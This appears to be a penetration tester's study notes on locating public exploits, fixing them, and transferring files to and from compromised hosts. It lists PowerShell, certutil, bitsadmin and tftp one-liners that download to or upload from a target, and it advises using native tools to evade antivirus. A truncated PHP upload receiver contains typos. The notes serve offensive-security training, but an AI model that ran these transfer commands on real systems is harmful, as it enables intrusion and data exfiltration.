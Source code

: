 # Locating public exploits
--------------------------
Another somewhat non-technical skill that required a bit of luck and skill to made some proper search engine queries.
Great tools and resources to look for exploit code are:

 * [exploit db](https://www.exploit-db.com/) - remember about papers
 * [searchsploit](https://www.exploit-db.com/searchsploit) utility
 * [packetstorm](https://packetstormsecurity.com/files/tags/exploit/)
 * search engine dorks of course
 * though does not seem to contain exploits, but could be very useful - [cvedetails](https://www.cvedetails.com/)

# Fixing exploits
-----------------
Fixing exploits is more or less as fixing regular software. You have to use cross-compilers, debuggers in extreme cases,
printf-based debugging and other similar trivial things to make it work. Was not hard to me at all because of my
experience as a software developer. Also remember that some exploits might be very concerned about environment 
(eg shell) and could not work in some corner cases like then shell is not fully interactive. In other words, sometimes
to fix the exploit does not mean to change it's code or compile with another set of command line arguments.

# File transfers
----------------
A huge topic that includes a lot of instruments throughout various platforms. Those instruments vary between the ones
whose whole purpose is to serve for this (like wget) to some dodgy ones like from LOLBAS (hello certutil.exe). Major
point is to try to use only native tools, to reduce footprint on the target and to decrease chances of possible AV 
detection, since some vendors may detect various tools as a riskware. An alternative of LOLBAS in NIX world is 
[GTFOBINS](https://gtfobins.github.io/) project.  
Sometimes it might be useful to convert file for some other representation, there are some tools to ease this like
`exe2hex` which could convert binary exe to batch file or powershell file and allow to restore it's original state
using these generated scripts. Remember about binary and text mode while working with FTP since binary files like
executable one could be corrupted if sent using ascii mode. 

Some useful approaches:

 * Using powershell and webserver to download: `powershell (New-Object System.Net.WebClient).DowloadFile('<URI>', '<OUTFILE>')`
 * Using powershell to upload: `powershell (New-Object System.Net.WebClient).UploadFile('<URI>', '<INFILE>')`
 * Using tftp: `tftp.exe -i <SRV> PUT <INFILE>`
 * Using certutil to download: `certutil.exe -urlcache -f "<URI>" <OUTFILE>`
 * Using bitsadmin to download: `bitsadmin /transfer debjob /download /priority normal <URI> <OUTFILE>`
 * Using simple PHP app to receive files, could be used with `UploadFile` powershell method from above:
```php
    <?php
    $updir = '/tmp/upload_dir';
    $upfile = $updir . $FILES['file']['name'];
```